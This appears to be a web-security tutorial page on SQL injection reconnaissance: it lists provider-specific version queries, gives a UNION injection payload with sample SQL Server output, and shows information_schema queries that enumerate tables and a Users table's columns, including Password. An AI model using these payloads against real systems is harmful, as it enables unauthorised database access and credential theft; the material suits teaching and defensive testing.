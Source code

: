 ## Examining a Database for SQL Injection Attacks
To exploit SQL injection vulnerabilities, it is often necessary to find information about the database. This includes:
- The type and version of the database software.
- The tables and columns that the database contains.
## Querying the Database Type and Version
You can potentially determine both the database type and its version by injecting provider-specific queries to see which one works.
Here are the queries to determine the database version for some popular database types:
#### Oracle
```SQL
SELECT banner FROM v$version
```
or
```SQL
SELECT version FROM v$instance
```
#### Microsoft, MySQL
```SQL
SELECT @@version
```
#### PostgreSQL
```SQL
SELECT version()
```

For example, you can use the `UNION` attack with the following input:
```SQL
' UNION SELECT @@version--
```
This might return the following result. In this case, you can confirm that the database is Microsoft SQL Server, and also see the version being used:
```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```
## Listing the contents of a database
Most types of databases (except Oracle) have a set of views called the `information schema`. This provides information about the database.

For example, you can query `information_schema.tables` to get a list of tables in the database:
```SQL
SELECT * FROM information_schema.tables
```
This will return output similar to the following:
```
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE
=========================================================
MyDatabase dbo Products BASE TABLE
MyDatabase dbo Users BASE TABLE
MyDatabase dbo Feedback BASE TABLE
```
This output indicates that there are three tables in the database: `Products`, `Users`, and `Feedback`.

You can then query `information_schema.columns` to get a list of columns in individual tables:
```SQL
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```
This will return output similar to the following:
```
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE
===========================================================================
MyDatabase dbo Users UserId int
MyDatabase dbo Users Username varchar
MyDatabase dbo Users Password varchar
```
This output shows the columns in the specified table and the data type of each column.